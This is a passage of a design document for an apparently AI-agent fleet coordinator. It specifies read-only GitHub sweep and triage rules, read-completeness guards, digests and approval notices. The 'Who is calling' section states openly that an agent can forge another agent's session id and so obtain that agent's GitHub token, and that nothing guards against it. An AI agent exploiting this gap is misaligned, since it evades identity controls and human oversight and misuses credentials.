| S2 | an open PR whose body or last 5 comments say it is held for, waits on or needs the person (`held for`, `hold for`, `waiting on`, `waits on`, `awaiting`, `blocked on`, `pending`, `needs <name>`, `<name> to review|approve|decide|merge|answer`, `for <name>'s review`; whole phrases, any case; `person_names` may hold a handle such as `@login`) and which is not a captain PR (no `merge-captain` label and, inside the transition window, no first line `MERGE: captain`; see #133) |
| S3 | the same phrases in one of an item's last 5 comments (of the last 7 days), or in a report's text, where no human-tier decision names that issue or PR |
| S4 | a decision (issue or captain; a report is left, its question may outlive a closed ask) whose issue or PR is closed or merged (an issue that is closed is never listed at all since #570: see below): **withdrawn** from the list when enabled (an external link follows the existing withdraw path), audited once as `sweep.withdrawn` (shadow: `sweep.finding` with `applied: false`) |
| S5 | a cos-tier decision older than `aged_cos_hours` that is NOT already in the owner's tier: an entry whose issue or PR also has a human-tier decision (a duplicate, or the escalation of the same ref, however the repo or the `pr:` id is spelled: case, `pr:owner/repo#N` or `pr:repo#N`) is not stale for cos and is not raised |

**Precision.** A finding is raised only after a fresh single read of its issue or PR (and a fresh read of its last comments when comments raised it) bears it out, so a cached 15-minute list cannot raise it; one that does not hold is audited as `sweep.dismissed`, one that cannot be checked now (no call budget, a failed read) is neither raised nor audited that pass, and a verified finding is trusted for 15 minutes. Only S3 waits for the decision list (a missing human-tier decision is the one thing that raises it falsely): it is deferred for a repo whose awaiting issues are unread or unreadable, or for every repo while the reports or requests source fails, as in the first passes after a restart. S1 reads only labels and bodies, so it does not wait. A held PR's owner-tier row comes from the notice read, so S3 and S5 also wait while the `notices` input is not whole (#805; an unread noticed PR makes its row absent, which is no evidence the PR is not the owner's); the wait ends with the same 30-minute bound. Each `sweep.finding` audit line carries `source` (`comment:<id>`, `report:<id>` or `body`) and `match` (the matched phrase, at most 80 characters), so the cause of a finding is readable from the audit. When a finding was last raised is kept in `sweep-alarmed.json` (within the re-alarm window), so a restart does not raise it again. A deferral lasts at most 30 minutes (`SWEEP_DEFER_SECONDS`); after that S3 runs on the fresh check alone and is marked overdue. `status` shows each deferral (repo, reason, since) and the number of findings not checked this pass, and `fleet-doctor` warns on an overdue deferral. A decision section is a line that STARTS with `## Decision required` (level 2, any case, CRLF included), followed by the end of the line or any suffix that does not continue the word (`## Decision required (re-verified 2026-10-09)`, `: pick`, `- x`). `## Resolved (was: Decision required)`, deeper headings, inline mentions, code and quotes are not. A batch's row sections (or the older `decision-rows` block) stand for the section of a labelled batch (S1b) but never makes an unlabelled issue an S1a finding, so a resolved batch is not reported.

**S3 is strict.** It fires only for an open issue or PR whose LATEST comment (not an older one a later comment superseded, not the body) or a report states it in a strong form (`waiting on`, `waits on`, `held for <name>`, `needs <name>'s decision|yes|answer|approval|review|OK`, `for <name>'s review`) in a sentence with no conditional or descriptive marker BEFORE the phrase (`if`, `would`, `may`, `could`, `proposal`, `option(s)`, `says`, `saying`, `said`; a hedge after it, as in `waiting on the owner, if you agree reply yes`, does not cancel it); code, quotes, negations and past tense (`was`, `were`, `had been`, `previously`, `formerly`) are ignored. **Attribution:** a report is about the refs its sentence names (`#N`, `repo#N`, `owner/repo#N`; a sentence ends at `.`, `!` or `?` followed by a space, or a line end), never about its own ask: one that names no ref raises nothing, and refs that are human-tier decisions (or closed, or not in a watched repo) raise nothing. A comment is about its own item only when its sentence names no ref, or names that item; when it names other refs and not the item, it is about those, and when every ref it names is one the switchboard cannot resolve to a watched item (`web#4` with no such repo, a repo that is not watched) it is not attributed to any item and is counted as unattributed in `status`. S2 keeps the wider phrase list over the body and the last 5 comments. The remaining false positives are a plain sentence that states a wait about something else (a status that quotes someone's plan without a marker word).

S1, S2, S3 and S5 become ONE batched fact for the Chief of Staff, `sweep: N findings: <repo#n kind>, ... (+M more)`, only
refs and kinds (no text from GitHub reaches it), re-raised for an item at most once per `realarm_hours`; its key names the set
and the time slot, so a restart is one delivery. The sweep never edits GitHub and never changes a tier: the Chief of Staff
resolves or escalates. Text in code blocks, inline code and quoted lines is ignored, and a negation just before the phrase (`not`, `no longer`, `never`, ...) cancels it.
S1 also flags charters and other issues that carry the awaiting label, by design. Reads are bounded: per repo one open issues and PRs list and one recent comments list (at most 2 pages each, a longer one is shown as capped), kept 15 minutes. The sweep makes at most 6 `gh` calls per pass (a list costs its pages, a single-issue read for S4 costs one), 2 of them reserved for the S4 reads; stale repos and unchecked decisions are taken least recently read first, so across passes every one is reached and none starves. A batch issue (row sections, or the older `decision-rows` block) counts as having its decision section, so S1b does not fire for it. `status` shows `sweep` with the
counts by kind and `fleet-doctor` warns when there are findings.

### The triage function (#130, rule family T)

**THE OWNER'S HOLD, stated plainly: the triage function writes NOTHING to GitHub. No label, no assignment, no comment, no
close, no edit, ever, until the person has reviewed its shadow findings and says otherwise.** There is no code for any of
it: the function only reads. Its only writes are audit lines (`triage.finding`, `triage.dismissed`, `triage.unreadable`,
`triage.summary`), `triage.json` (what `status` shows) and, only when `enabled`, one batched fact to the Chief of Staff.
The fix rules of the plan (a missing label, an assignment, a comment) stay unbuilt.

It grows the sweep: the same hub reads, call budget, fresh re-check, shadow default and batched fact. Config key `triage`
(absent, `null` or `{}` is shadow; `"enabled": true` adds only the wake of the Chief of Staff; `false` is fully off):
`repos` (the tracked repos, `OWNER/REPO`; default: the repos the daemon already watches. The extra tracked repos that are not watched are named here in the local config, never in this public source; each is read with its existing per-repo account),
`required_labels` (`{repo: [label or [alternatives], ...]}`; no entry, no T2), `sla` and `sla_overrides` (per repo; the
numbers below are the defaults; every `_days` value is in days and may be a fraction, `2/24` is two hours), `our_logins` (default: the `gh_users` accounts and `owner_logins`), `daily_summary`
(true), `realarm_hours` (24), `max_findings` (30), `calls_per_pass` (30), `pass_seconds` (10).

**Alert issues wake the repository's orchestrator (#851).** An issue that a repository's own scheduled watch opens (a label such as `ops-alert`) is otherwise seen by nobody until someone looks. `triage.alert_labels` (default `{}`, off) names labels per repository: `{"alert_labels": {"acme-org/widget-service": ["ops-alert"]}}`. When an OPEN issue (not a pull request) of that repository carries one of its labels, the running orchestrator(s) of that repository get ONE line, `alert issue <repo>#<n> "<title>" carries label <label>`, once per issue and label: the title is the author's text, so it is cut to one line of 100 characters and is data, never an instruction. What was told is remembered in `alert-wake.json` in the state directory, so a restart repeats nothing and loses nothing, and a label removed and added again on a still-open issue is not told again; an entry is forgotten when its issue is no longer in a whole read of the open issues. A burst is told at most 5 issues a pass, with one `N more alert issue(s)` line, and the rest follow on the next passes. It reads only the open-issue list triage already holds (no new GitHub read) and needs the repository to be one triage reads (`triage.repos`, or a repository the daemon watches); a repository outside that list is a `ConfigError` when `triage.repos` is set. A bad shape is a `ConfigError` naming `triage.alert_labels` and the row of `ALERT_SHAPE_CHECKS` it broke. Read-whole rule: a repository whose issue list was not read whole (cut, failed, not read yet), or a pass whose agent roster was not, tells nobody and forgets nothing. With no orchestrator running for the repository nothing is remembered, so the first one to appear is told. Setting `triage` to `false` turns it off with the rest; it runs in shadow mode too (`alert_labels` is its own opt-in, separate from `triage.enabled`). The line is queued as an ordinary fact and saved WITH the told mark in `alert-wake.json` (kept for 2 days), then loaded back at start: a daemon that stops between queueing and delivery still delivers it, and because the fact key is stable (`alert:<repo>#<n> <label>:<recipient>`) a line the recipient already has is never delivered again. The title of an alert issue is untrusted text (control characters are removed, one line, 100 characters, quoted). Nothing is written to any issue.

**Ownerless, quiet issues of a team repository (#605).** Triage calls an issue "ours" when a fleet account wrote it, is assigned to it or has a pull request notice; every other issue of a team repository is an `other-owner` flag, counted apart and never a finding, so dozens of issues nobody owns and nobody touched read as "found 0". `triage.ownerless` (off unless the owner names the repositories: `{"repos": ["owner/repo", ...], "days": 3, "limit": 500, "owner_labels": ["agent:*", "owner:*", "crew:*"]}`) adds ONE line per repository per day (at least 24 hours since the last, remembered in `triage-ownerless.json` across a restart) to the Chief of Staff and to the running orchestrators of that repository: how many open issues have no owner and no activity for `days` or more, how old the oldest is, the five oldest as links, and `read X of Y open item(s)` (the list is read page by page to `limit` items, LEAST recently updated first, so a cut keeps the stale issues this line is for: then the count is `at least N`, the line says `least recently updated first`, and the five oldest are the true oldest; the repository's own count of open items says how many exist; the extra reads are charged to the call budget). **What counts as an owner** (one definition, `triage_ownerless.is_claimed`, which T1 uses too; the lane-aware `Owner:` rule below is a parameter of it): an assignee, a place under a charter, an `Owner: <name>` line, a running agent that owns the issue, or an unresolved parent chain (never a missing owner); plus, for this line only, a label matching `owner_labels` (another crew's `agent:<name>` is OWNED), and an author that is one of the fleet's own accounts. **Lanes by label or `Owner:` line:** `repos` may also be a map, `{"<owner/repo>": {"label_owners": {"<label>": "<lane>"}}}`; label and lane names live only in that config. For a repository whose `label_owners` map is non-empty, an issue carrying a label that is a key of the map is OWNED, and a body whose FIRST `Owner: <name>` line names a known lane (the name of an orchestrator agent the daemon holds for the repository; the agents carry the charters) is OWNED; an unknown name is not. The lane value in the map is informational: only the label decides, and an `Owner:` line is a claim by the issue's author, not proof. With a list, or an empty or absent map, the rule is the one above, unchanged. A bad shape is a `ConfigError` naming `triage.ownerless`, never a silent default. The pass still consults the read-whole registry (`agents`) and is skipped when the fleet was not read whole. The line holds counts, ages and links only (no title or text) and nothing is written to any issue. The triage report also says WHY findings were not checked, per repository: `not checked for <repo>: N call budget, N failed read, N not read yet (N of them other-owner flags); oldest unchecked for N hour(s)`.

| Rule | Finding | Default SLA |
|---|---|---|
| T1 | open issue with no assignee, not in a charter's chain (a charter, and any issue whose parent links reach a charter within 8 levels, read from the issues already held: no extra read; a parent that was not read makes the chain unknown and raises no T1, a cycle or a deeper chain ends the walk) and not worked by an agent | 1 day after creation |
| T2 | a required label group missing (config only) | 1 hour (`1/24` day) |
| T3 | no next step: no `## Decision required`, no awaiting label, no `Next:` line or checklist item in the body or the recent comments, no open sub-issue | an ask quiet 1 day, other issues 3 days |
| T5 / T6 | a human-tier decision unanswered / a `MERGE: captain` PR waiting (from the decision list, judged only when it is whole) | T5 1 day (T6 at the owner's tier is listed ONCE the same way and rolls up with T5; T5 listed ONCE in the batched fact when it passes a day; after that only ONE line a day, `N items waiting on the owner for more than a day: #a #b ...`, naming the items still in the owner's tier; one that leaves the tier drops out, and one that returns is listed once as new; the line names at most 30 items (oldest listing first, under 1500 characters) then `... and M more (fleet-switchboard decisions --tier all)`, with the repository in each name when several repositories are listed; the memory is the `T5` and `T6 <repo>#<n>` keys and a `rollup` time in `triage-seen.json`, so a restart does not re-list), T6 2 days |
| T7 | an open non-draft PR of OURS with no review. Other teams use formal GitHub reviews, which the list reads do not show, so their PRs are never called unreviewed (no T7, not even a flag). The fresh re-check (one `gh pr view`) applies the captain decision's own evidence (`captain_evidence`, built on `pr_reviews_at` and `pr_signed_at`): a formal review by a non-author at the exact head, or a signed comment naming the head from a non-author agent that is not a sender of the PR's notice, means REVIEWED. A signed comment counts only when the PR's notice is on file (its sender is then known and excluded); with none, only a formal review at the head counts, and a finding says `no notice on file` (our flow always notices, so a PR without one is itself worth the flag). A `MERGE: captain` PR that is already in the decision list is T6's, not T7's (while the list is incomplete a captain PR waits). A review at an OLDER head only fires once the last push is older than the SLA, with the evidence `review at an older head` and the hours since the push | 4 hours; a PR older than 14 days is not judged |
| T8 | a blocked ask (a `blocked` label) | 1 day quiet |
| T9 | an ask with no activity (T3 takes precedence); an issue with a label ending `:awaiting-live` is skipped by this and by T12 until the label is older than `awaiting_live_days` with no comment since from anyone: then **any** such open issue is a T9 finding with the reason `awaiting-live expired` (#576). An age that cannot be read, or a timeline longer than one page of 100 events, stays visible as `awaiting-live age unknown` until the label is removed or re-added | 3 days |
| T10 | a closed issue still carrying an awaiting label | immediate |
| T11 | an orphan: in no chain, no assignee, untouched (T1 takes precedence, so it covers items an agent works on); an issue whose parent chain could not be read to its end is unknown, never an orphan | 1 day |
| T12 | a plan or work-item issue still open after the pull request that implements it merged (the PR names it with `Closes`, `Fixes`, `Resolves` or `Part of #N`, or a `PLAN:` link to it): the finding names the PR and its link and replaces T1 and T11 for that issue (#384). **Only when it is truly done (#410):** a label ending `:awaiting-live` (the issue waits on a live event) keeps it quiet too (#574); an open sub-issue, a line in the issue's own text saying work is left (an unchecked `- [ ]` item, or `pending proof`; quotes and code do not count), or a proof recorded in the plan ledger for the linked merged PR that has no passing verdict yet, keeps it quiet; an unreadable or tampered ledger is unknown and gives no finding that pass; no GitHub read is added | at once |

**Reads that are not whole (#805).** The engine keeps, in memory only, which inputs were read whole in the latest pass (`whole(name)`: no error, not cut, not provisional; the decision list is also not whole while any PR notice is unread; a restart makes every input not whole until its first whole read). The seen-memory prune does not forget a `T5` or `T6` record while the decision list is not whole, nor any record (T5 and T6 included) of a repository whose issue list was not read whole; an item is forgotten only by a whole pass without it. A skipped prune leaves one `whole.skipped` debug audit line per pass. The escalation-key prune consults the `requests` and `notices` inputs too: it is whole only when every worker was read in the pass (a worker that could not be read lists no requests, which is no evidence they are gone), and a pass that is not whole prunes nothing. A mark is never inherited: the notice and worker reads mark their input not whole when they start and whole only at the end of a read that completed, so an exception of any class leaves it not whole; the decision list is whole only with no error and a whole notice read.

**Reads that are not whole: the audit of every absence-driven consumer (#805).** One row for each place that deletes, prunes, forgets, expires, releases, removes a label, closes, retires, reclaims or alerts from an absence or a count. "Checked before" says whether the consumer already looked at how whole its input was; "Fix" is what the series did, or why it was already guarded. The registry is `whole(name)` in memory; a consumer that needs an input and finds it not whole does nothing destructive and writes one `whole.skipped` debug audit line per pass.

| Consumer | Input | Checked before | Fix, or already guarded (how) |
|---|---|---|---|
| escalation-key prune | `requests`, `notices` | partly (the request list must exist, captain keys have their own notice guard) | consults `requests` and `notices`; the worker and notice reads start not whole |
| triage seen-memory prune, and the T5 and T6 candidates | `decisions` (errors, `notices`), each repository's issue list | no | a T5 or T6 record is kept while `decisions` is not whole; every record of a repository whose issue list was not read whole is kept |
| owner-tier merge-held items (T6) | `decisions` | no | listed once like T5, then only in the daily roll-up |
| load alert and stalled count | first full pass, `notices` unread, held links | yes (#796) | already guarded: the tick waits for the first full pass and while notices are unread |
| sweep S2, S3 and S5 findings | `notices`, per-repository lists | partly | S3 and S5 wait while `notices` is not whole (the 30-minute bound stays) |
| sweep once-only memory (re-alarm window) | memory file | no | kept in `sweep-alarmed.json`, so a restart does not re-raise |
| sweep S4 withdrawal | a fresh read of the issue | yes | already guarded: acts only on a fresh read that says closed |
| closed-label and merged-label passes | a fresh read of the issue or PR | yes | already guarded: act only on a fresh read that says closed or merged; a failed read removes nothing |
| reminders prune | the recipient transcript | yes | already guarded: forgets only on positive evidence (the key is in the transcript); a failed read skips |
| delivered-message, report-rider and cursor prunes | the recipient transcript | yes | already guarded: positive evidence or age only; a failed read skips; the cursor and last-report prunes act on the configuration (a repository no longer watched) or a size bound, never on a read |
| temp janitor | temp directory ages, busy sessions and processes, its stamp | yes | already guarded: age is positive evidence; an unreadable stamp or an unreadable busy source keeps everything |
| worktree reclaim | pane list, session list, ignored files | yes | already guarded: a list that cannot be read keeps the worktree |
| container reaper | the containers' own expiry labels | yes | already guarded: acts only on an expiry label that is a valid past time |
| retire and auto-retire | `session.active`, pane list, the final report | yes | already guarded: idle retire needs positive evidence and fails toward keeping; auto-retire waits while the discovery has problems and for three passes in a row |
| notice expiry | observed time in passes where some notice read fine | yes | already guarded: an outage counts no time and a new process restarts every count |
| ownerless line (the quiet issues with no owner) | `agents` (the discovery), the issue lists | no | consults `agents`; the discovery marks it not whole when it starts and whole only when it finished with no problem (there is no separate stale-ask consumer) |
| alert-issue wake (#851) | `agents`, the open-issue list of its repository (`issues:<repo>`) | yes | tells and forgets only on a whole read of both; a cut or failed list wakes nothing and keeps the memory (`alert-wake.json`) |
| triage records of every kind (T1, T2, T3, T7 to T9, T11, T12, the invalid-park flag and the other-owner flag judge whether an item is ours, so they need `agents`; T3, T7 and T9 also `comments`, T1 and T11 also `merged` (they give way to T12), T7 also `decisions` (a captain PR already listed there is T6's), T12 `merged`, T10 the closed lists; T5 and T6 `decisions`; the invalid-park flag and the other-owner flag stand for whichever rule would have fired, so they judge the UNION of every rule's inputs, derived from the table; every kind but T10 also keeps its records while the repository's issue list is not whole, which for T5 and T6 is deliberate caution) | `agents` (the discovery), `decisions`, and per repository `issues`, `comments`, `merged`, `closed` | no | T1 and T11 are not judged while `agents` is not whole, and the seen-records of every kind are kept while an input they judge is not whole (one table, `TRIAGE_RULE_INPUTS`, names the inputs each kind judges and drives both the dropped candidates and the kept records; a kind missing from it keeps everything, and a test derives the kinds from the real writers and fails when one has no entry). Known gaps, all failing toward fewer findings: the PR notices file that makes an item ours, the awaiting-live reads (T9) and the plan ledger (T12) have no mark of their own; the ownership split (ours or another's) may then read an agent-owned item as another's, which only lowers the findings to flags and acts on nothing |
| chat-clear offers | `notices` (held PRs come from it) | no | the offers refresh is skipped while `notices` is not whole, so the head the person was shown is not forgotten |
| the other triage rules (T2 to T4, T7 to T10, T12) | the units they read | yes | already guarded: a rule whose unit is missing is "not checked", never raised |

**The stale digest (#349).** What reaches the Chief of Staff is tuned, and its logic lives in `bin/triage_digest.py`. One digest per pass at most (an empty one is never sent). An item surfaces once, then again 1 day after, 3 days after that, 7 days after that, and from then on weekly; a change (a comment, a push, a label or a state change) shows it at once and restarts the steps. A `<user>:parked` item with a valid `Parked until:` date still ahead is skipped; a parked label with no valid date is treated as not parked (listed like any item) and flagged once. `fleet-switchboard triage seen-leave OWNER/REPO#N` mutes an item until it changes (`triage unmute`, `triage muted`); it writes one private file, nothing on GitHub. The memory is `triage-seen.json` (private, bounded); a lost or corrupt file makes every item surface once. `triage.backoff: false` restores the fixed `realarm_hours` re-alarm. **A calm start (#406):** after a start, or a lost memory file, nothing is delivered until a sweep has checked every finding once (no finding unchecked, no list unread); then one digest carries them all. After that at most one digest goes out per `triage.digest_interval_minutes` (default 60; 0 = one per pass that has something), counted from the last delivered digest, which is kept in `triage-seen.json` (a restart with the file intact neither warms up again nor resets the hour). What qualifies in between is held, not dropped: backoff steps move only when a digest is delivered. A warm-up that cannot finish (a list that never reads) ends after 30 minutes, so the digest never stays silent for good. `status` says `digest warming up: N unchecked`, or when the next digest may go out. `backoff: false` keeps the old per-pass behaviour whole. `status` shows, for the last 7 days, the digests sent, the characters delivered and an estimate of tokens (characters / 4), from `triage-cost.json`; a day before the first record says `not recorded`.

**A posted or edited plan tells its approver (#765).** Each triage pass looks, in the units it already holds (open issues with their parent links, the comments of the last 14 days, the 50 recently closed pull requests: no GitHub read of its own), at the latest `## Plan (scenarios)` comment of every open sub-issue of a charter or of one of its asks. For a plan last posted or edited within 24 hours and not already approved, it queues ONE fact, `plan posted on #N: <url> <hash>, plan check PASS|FAIL`, once per plan hash: the kept file `plan-wake.json` in the state directory (hash keys, 14 days) means a restart never repeats it (the hash is kept when the line is queued, so a restart before delivery loses that one line: at most once, never twice; a file that cannot be read or saved is an audit line `plan_wake.error`). The route is read from the held parent links only, never from the plan's text: a sub-issue of a charter is an ask, so its plan goes to the Chief of Staff; a sub-issue of such an ask is a work item, so its plan goes to the orchestrator of that charter (a plan with no such agent is not announced and is tried again next pass). The line carries the issue number, a url rebuilt from the repository and the comment id, and the hash: never a word of the plan. It is an ordinary fact (kind `plan`), so the usual rule picks a note when you are engaged with the recipient and a wake otherwise; a key already in the recipient's transcript is never delivered again. The line follows the triage units' freshness (they are read at most every 15 minutes), so it is not instant. **A FAIL is confirmed (#802):** the issue bodies come from the same cached units, so when the check would say FAIL the pass re-reads that one issue (the one whose Done-when it was checked against) ONCE, inside the triage call budget, and reports the check against the fresh body; when the re-read is impossible (budget spent, or an error) the line says `plan check FAIL (issue body not re-read: may be stale; run plan check)`. A PASS is never re-read, and the hash and url are unchanged.
*Approved* (nothing is sent, and the plan is not listed) is ANY of: a comment on the issue by a different signer than the plan comment's (the `<!-- fleet-switchboard:from=NAME -->` marker, read with the daemon's own parser, else the GitHub login: every fleet agent shares one login) that says `approved` (not negated) and carries the first 8 hex characters of the plan's current hash; a pull request opened at or after the plan's last edit whose body's first line is `PLAN: <this plan comment's url>`; a consensus pass in the local ledger for that exact hash. An approval of an older hash never approves an edit. A plan with none of these 30 minutes after it was posted (or last edited) is named on ONE `status` line, `plans posted over 30 min ago, no approval comment, no PR citing it, no consensus seen (windows: ...)`: a coarse hint, since an approval sent only as a message, or older than a window, is not seen. A marker is plain text, so approval by comment only stops the note and the line; it is not an approval gate, and G0c stays the real approval. A plan on an issue that has no charter above it is ignored.

**An approval sent as a message is a fourth approval form (#790).** The same pass reads the audit's recorded sends (`v2.synthetic` entries: the `send:<sender>:<id>` key and the description `switchboard: <sender> message on <issue>: <first 100 characters>`, so `Approved at sha256:` plus the 64 hex characters fits) with the existing audit-tail reader and no new read. A send by someone other than the plan comment's signer whose text starts `Approved at sha256:<hash>`, or says `approved` (not negated, not a quoted line) and holds the full 64-hex hash, quiets the note and the sweep line for THAT hash only; a prefix or another hash never does. A message batched with others (`N items for ...`) is not recognised, so the note then fires as before. Like the others it is a hint, never a gate.

T4 and T12 are the sweep's S5 and the report fold; they are not repeated. **Another person's or team's issue or PR is never
our violation:** an item whose author and assignees are none of ours (`our_logins`), that is in no chain, is not
agent-worked and has no notice, is reported only as `OO` (other-owner, flag only), whatever rules it would break, with
`would_be` listing them. An `OO` flag is audited but is not one of our findings (it is not in the counts or the total, shown as its own `other-owner` count) and never wakes the Chief of Staff on its own: when a wake happens anyway for real findings, the fact adds a count (`Also N other-owner flag(s)`), and the daily summary carries it. Precision: each candidate is re-read fresh before it is audited or raised (T3 and T7 also re-read the
comments); one the fresh read does not bear out is `triage.dismissed`; one that cannot be checked now is neither audited nor
raised that pass. A repo the account cannot read is `unreadable`, audited once and shown in `status` and `fleet-doctor`,
never findings. Reads: four units per repo (open issues, recent comments, closed issues per awaiting label), each at most 2
pages (the closed lists 1), kept 15 minutes, the stalest unit first across all repos so none starves; units not yet read are listed as
unchecked. The budget is a config value, `triage.calls_per_pass` (default 30, 4 to 100; a third is kept for the fresh re-checks of
the pass's candidates) with `triage.pass_seconds` (default 10, 1 to 60: no new read starts after it, so a slow GitHub cannot hold the pass; the sweep has its own 8 seconds) as the time bound. The budget matters only on a cold cache:
a full cycle over 7 repos is 28 calls with small lists (at most 42 with full pages), so it completes in two passes; after that a pass
reads nothing until the 15-minute lists expire. Steady-state cost at the default for 7 repos: the lists once per 15 minutes, about
Why `status` can show many findings "not checked this pass": after a daemon restart nothing is confirmed (the memory is rebuilt), and each
finding needs one fresh read (two with comments); at about a second a read the 10 second bound lets a pass confirm roughly ten, so a list
of a hundred drains over ten or more passes, then stays drained until a confirmation's 15 minutes pass. Most of the list is usually
other-owner flags (not ours, never acted on). They are checked **after** our own findings, which are never kept waiting behind them, and
within each group the least recently attempted comes first, so none starves. `status` names how many unchecked are other-owner flags and the
age of the oldest unchecked finding (since its last answer, or since it was first seen).

Precision rules (from the owners' hand-checks; the sweep and the triage still only report, in shadow, and write nothing to GitHub):
- **T12 (#384)** is read from ONE page (the 50 most recently updated) of the closed pull requests of each repo per refresh, charged to the pass's call budget like the other units; only a PR with a merge date counts, a PR closed unmerged implemented nothing, and a link to another repo is ignored. It is ours when the issue is ours or the merged PR's author is one of ours; otherwise it is only an other-owner flag. It flags and writes nothing. T12 never fires for a charter or an ask (long-lived umbrellas that a merged part does not finish): only for a work item or another issue. The pull request template and the coder definitions tell a PR to name its plan issue with `Closes #N` when it finishes it and `Part of #N` otherwise, so that `Closes` closes it on merge and this finding is for the `Part of` and `PLAN:` cases that stay open.
- **T1 and T11** count an explicit `Owner: <name>` or `owned by <name>` line in the body as an owner, besides an assignee or a parent (a quoted or code line does not count, nor an empty `Owner:` or a placeholder: TBD, none, n/a, unknown, `?`).
- **T7** (no review): our agents share one GitHub account that cannot approve its own PR, so a review lives in a signed comment. With the PR's notice on file a head-naming signed comment of another agent counts (as before); with none, a signed comment by another signer that names the exact head AND says it is a review (`review of <sha>`, approved, changes requested, lgtm) counts too. A formal review whose body starts with `Review of <head sha>:` and then `APPROVE` or `CHANGES REQUESTED` (the full sha or a prefix of at least 7 characters, as a whole token) also counts for T7 alone, even from the PR author's own account (the independent reviewer posts from it); the merge gates, the hold rule and the captain evidence do not read it. The PR author's own login never counts, and a comment that says `not approved`, `changes requested` or `needs changes` is not an approving review (for the list pass too).
- **S6a** (marker without label) is not raised for a PR opened less than 15 minutes ago (`SWEEP_S6A_GRACE`): the label is applied after it opens.
- **S1a** (decision section without an awaiting label) is not raised while the issue changed less than 10 minutes ago (`SWEEP_S1A_GRACE`): cos removes one label and the person's label follows.
- **T10** (closed but still labelled awaiting) waits 10 minutes after the close (`TRIAGE_T10_GRACE`): the label comes off minutes later.
- **S3** (said to wait on the person) ignores a sentence that names a future gate before the phrase (`when`, `once`, `before`, `after`, `later`, `deferred`, `parked`, `not started`) or `deferred`, `parked`, `not started`, `when picked up` after it.
112 calls an hour (at most 168), plus one or two fresh calls per live finding per 15 minutes (a few dozen an hour at typical
counts), far under the hourly API limit. The sweep has its own budget, `sweep.calls_per_pass` (default 12, 4 to 100); the two
count separately and share the hub's cache but not each other's calls, so neither starves the other, and together on a cold cache
they use at most the sum.

Reporting: one batched fact per pass (`triage: N findings: ref rule, ...`, refs and kinds only), each item re-raised at most
once per `realarm_hours`; one summary line every 24 hours since the last one (counts by rule: found, other-owner flags, escalated, unchecked, unreadable repos), audited
always and sent only when enabled. `status` shows `triage shadow: N findings (T1 a, T3 b, ...)`. `bin/triage-sample` writes
the last week's findings to a LOCAL sheet (it refuses a path inside a git working tree) with `label` and `note` columns for
TP/FP, and `triage-sample --summary FILE` computes precision per rule from the filled sheet (like `bin/judge-sample`); a rule
under 80% is fixed or dropped first.

### Who is calling (#138)

**What this is, plainly: a mistake-guard, not a security boundary.** `OPENCODE_SESSION_ID` is an environment variable the caller
controls, exactly as `HERDR_PANE_ID` is, and every agent can read every other agent's session id from `herdr agent list`. An
agent that sets the variable by hand to another agent's session id is taken for that agent, and through the `gh` shim it also gets
that agent's account token (the token follows the resolved repo). Nothing here defends against that; it relies on the harness
setting the variable per session and on the caller being cooperative (the one reaction to a forged id is the pane warning below, and
only when the pane disagrees). What it fixes is the accident: stale or crossed inherited variables after a server restart, which
used to make an agent act as another. Treat any claim below that "an agent is never taken for another" as covering mistakes, not
adversaries.

An agent is not taken for another by accident. The caller is identified by its OWN session, `OPENCODE_SESSION_ID` (the harness sets it
per session and it is unique), looked up in the switchboard's own registry (v2's session record, whose `metadata.fleet` the
launch wrote, and herdr's agent list): its name, role and repo come from there, **never from inherited environment
variables** (`HERDR_PANE_ID`, `FLEET_SWITCHBOARD_ROLE`, `FLEET_SWITCHBOARD_REPO`, `GH_TOKEN`), which a server restart can leave
belonging to another agent (the live case: an orchestrator's shell carried its own session id and a store-ops coder's pane, role,
repo and token, so every call was attributed to the coder). This covers `send`, `report`, `notice`, `remind`, `launch`,
`handoff`, `comment`, `decisions`, `orders`, `intents` and `whoami`. Only an unknown session is refused, with
`cannot tell who you are` and a non-zero exit, and it is never read as "a person in a plain shell" (a session v2 knows that is not a
fleet agent is a person's, so a decision write from one is yours as before). A `HERDR_PANE_ID` that names another agent's session
is kept as the diagnostic: one warning line, naming both agents and the pane this session runs in, saying the identity was taken
from the session. With `OPENCODE_SESSION_ID` unset (a shell outside OpenCode) nothing changes: the pane identifies the caller, and
with neither the answer is `cannot tell who you are`.

The `gh` shim names the caller by `whoami` (falling back to `agent`, never blocking) and, when the config has `gh_users`, runs
the real `gh` with `GH_TOKEN` set from the account that map gives for the repo of the caller's resolved identity
(`fleet-switchboard whoami --repo`, resolved from its session): the same map and the same `gh auth token --user` the daemon uses,
so an inherited token (a restart can leave an agent with another agent's, or the wrong account's) never decides who an agent
acts as, in either direction. The token is put only in the child's environment: never printed, logged or in argv. With no `gh_users`,
no mapping for the repo, no switchboard (or one too old to answer `whoami --repo`), no repo or no token it leaves the environment as
it was, says nothing, and `gh` runs. The whole lookup (who am I, which account, its token) is ONE `whoami --json` call plus at most one
`gh auth token`, under one shared deadline of 3 seconds for a read and 10 seconds for a WRITE (`FLEET_SHIM_LOOKUP_SECONDS` sets both, kept between 0.2 and 10): `gh` is never blocked,
and a wedged daemon or v2 adds at most that, after which a READ is signed `agent` and runs with the environment's token. **Writes fail closed (a guardrail, not a boundary: the boundary is which account's token a pane can reach):** when `gh_users` is set and the identity or token lookup FAILS (it times out, `whoami` does not answer, or `gh auth token` gives nothing), a WRITE (every `gh` command that is not KNOWN to read: reads are the groups `auth`, `config`, `search`, `status`, `browse`, the sub-commands `view`, `list`, `status`, `diff`, `checks`, `download`, `watch`, and `gh api` with no method but GET and no fields; a flag before the verb, as in `gh pr -R o/r merge`, does not hide it; `workflow run`, `run rerun`, `secret set`, `gist`, `pr checkout` and an alias count as writes) is retried once with a fresh deadline and then refused with `gh: account lookup failed, retry` (exit 1) rather than run with the inherited token; reads still fall through. A switchboard too old for `--json` (the plain `whoami` answers) and a repo with no mapping are not failures. **A pane the switchboard opens is an agent's, so it never carries the marker:** `launch` and `restart` name `FLEET_SWITCHBOARD_OWN_GH` with an empty value in the pane's environment (the shim reads only `1` as set), so an inherited marker does not make the shim skip the per-repo account. `launch` also refuses an `--agent` the OpenCode service does not list (it would start as the default Build agent with the brief unsent), naming the primary agents that are registered, and refuses one the service knows only as a subagent (a pane runs a primary agent, or one registered for both modes; a subagent is run by another agent's Task tool); an unreachable service does not block it. **The daemon is nobody's agent.** The switchboard's own `gh` calls (the daemon's forwarders, intent reads, sweep and triage reads, a command's own reads) already name their account (`GhAccounts`); the shim must never swap it. So (1) every switchboard process sets `FLEET_SWITCHBOARD_OWN_GH=1`, `GhAccounts`' per-repo environments carry it, and the shim leaves the token of such a call alone; (2) the daemon never carries a caller's identity: `daemon_environment` (the hook and `ensure` 